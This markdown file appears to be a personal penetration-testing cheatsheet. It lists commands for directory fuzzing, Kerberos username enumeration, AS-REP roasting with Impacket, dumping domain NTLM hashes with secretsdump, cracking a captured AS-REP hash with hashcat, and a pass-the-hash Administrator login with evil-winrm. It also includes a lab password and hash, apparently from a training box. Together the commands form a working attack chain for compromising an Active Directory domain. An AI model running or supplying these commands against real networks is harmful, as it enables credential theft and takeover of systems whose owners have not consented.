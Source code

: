 # Vince's cheatsheet
## Helpful cheatsheets
* Kerberos - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
* SMB - https://github.com/irgoncalves/smbclient_cheatsheet
* Wordlists : https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content


## WFUZZ
WFUZZ directory enumeration
```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://ip:port/FUZZ --sc 200
```
##Gobuster
```bash
gobuster dns -d TARGET -t 25 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

## enum4linux
Active Directory enumeration (DC Domain Controller)
```bash
enum4linux
```
## Kerbrute
Kerberos username enumeration
```bash
/opt/kerbrute userenum --dc dc.local -d dc.local userlist.txt
```
NB : Hostname must be added to the hosts file. Use nmap to find the Domain name.

## Impacket 
### GetNPUsers
With Impacket example GetNPUsers.py:
```bash
# Check ASREPRoast for a list of users (no credentials required)
impacket-GetNPUsers -usersfile valid_users.txt spookysec.local/
```
Hashcat Wiki page : https://hashcat.net/wiki/doku.php?id=example_hashes
NB : Valid users list generated with Kerbrute.

### Secretdump
Get hash credentials from dump with secretdump:
```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.10.242.155 -just-dc-ntlm
```
## Hashcat
Cracking with dictionary of passwords:
```bash
hashcat -m18200 '$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:bf4709a453ad7d40eb48c0c481badd6a$f14d24154b1962622216837b369ffbeb1536d815243f07df44667e24326b75fbad3a622a3acf8f54b4f3d9114169551dd42542218e3692368e849fb400aaec42aebfa12213d6f130325297f4ec2cd61312e6fe5ad28534cab6d78de488d2d42c7c456d46497fdd1d2f6bcd6961ce6b261ab6bb7366f364c7cbb4e18edafd4adf08ae2d1cd7acbdb5d141bc38620b678b038c70ea58bcd79596640abb6400eb17bfe491961de5fc929224b0cf4626d2158b0fbdbceef25235786f4f57ad1bc471a48eca2f9624fc5bab88afc4e6afd38afbb5d4b9936c03d7cd0fc2d2a63b57cfbbc951c33a9c4f4133f1a5cd49316700b87e' passwordlist.txt
```
# Crackstation
```bash
https://crackstation.net/
```

## Smbclient
List SMB/CIFS shares (authenticated):
```bash
smbclient -L 10.10.242.155 -U unsername@domain.local%password
```


## Evil-Winrm
Pass the hash attack with Evil-Winrm:
```bash
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
